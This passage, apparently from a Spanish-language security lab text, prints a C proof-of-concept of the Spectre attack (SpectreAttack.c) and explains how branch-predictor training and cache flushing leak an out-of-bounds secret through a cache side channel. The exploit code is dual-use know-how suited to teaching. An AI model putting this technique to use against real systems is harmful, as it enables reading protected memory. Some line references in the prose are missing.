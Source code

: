 \begin{lstlisting}[caption=\texttt{SpectreAttack.c}, label=spectre:list:spectreattack]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
char    *secret    = "Some Secret Value";     (*@\ding{192}@*)
uint8_t array[256*4096];

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else { return 0; }
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;

  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) {
      restrictedAccess(i);
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }

  s = restrictedAccess(index_beyond);      (*@\ding{193}@*)
  array[s*4096 + DELTA] += 88;             (*@\ding{194}@*)         
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  (*@\ding{195}@*)
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}
\end{lstlisting}

La mayoría del código es el mismo que se muestra en el Fragmento \ref{spectre:list:outoforder}, por lo que evitaremos explicar su funcionamiento. La parte más importante son las Líneas , , y . La Línea  calcula el offset del valor secreto a partir del comienzo del buffer (asumimos que la dirección del valor secreto es conocida por el atacante; en los ataques reales existen varias maneras de encontrar esta dirección).
El offset está más allá de los límites del buffer, por lo que sí este es más grande que el límite mas alto (upper bound) o mas chico que el límite mas bajo (lower bound) lo que vendría a ser un número negativo. Este offset caerá dentro de la función \texttt{restrictedAccess()}.
Dado que hemos entrenado a la CPU para que tome el true-branch dentro de \texttt{restrictedAccess()}, la CPU retornará \texttt{buffer[index\_beyond]}, al realizarse la ejecución fuera de orden y este contendrá el valor secreto.
El valor secreto hace que su elemento correspondiente ddentro del arreglo \texttt{array[]} sea cargado en la caché. Todos estos paso serán eventualmente revertidos, por lo que desde afuera del CPU la función \texttt{restrictedAccess()} retornará cero y no el valor secreto.
Sin embargo dado que no se limpia la caché, sabemos que \texttt{array[s*4096 + DELTA]} se encuentra dentro de ella. Ahora, sólo necesitamos usar la técnica de side-channel para descubrir cual es el elemento del arreglo \texttt{array[]} que se encuentra en la caché.



